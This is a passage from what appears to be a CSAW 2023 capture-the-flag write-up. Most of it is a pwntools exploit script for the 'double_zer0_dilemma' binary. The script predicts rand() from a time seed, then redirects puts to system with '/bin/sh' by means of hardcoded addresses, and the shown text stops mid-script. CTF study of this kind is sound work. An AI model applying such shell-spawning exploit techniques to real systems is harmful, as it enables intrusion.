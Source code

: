 <img src="/images/csaw2023/dvd2.png">

We need to align the address calculation first before sending the payload.
Here's my exploit code 

{% highlight python %}
from pwn import *

# r = process("./super_secure_heap")

#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
from ctypes import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./double_zer0_dilemma")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ["* play+169","* main+201", "* play+251"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)
    cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
    libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
    libc.srand(libc.time(0))
    rv = libc.rand() % 37
    print(rv)

    # overwrite puts to system
    # change strings to '/bin/sh'
    value = (4702111234474983745)
    printf = 0x0000000000401040
    syste = 0x7ffff7e22290
    shot = 0xff341e610580
    # guess = ((syste * 2) - puts)
    # print(hex(guess))

    binsh = 0x0068732f6e69622f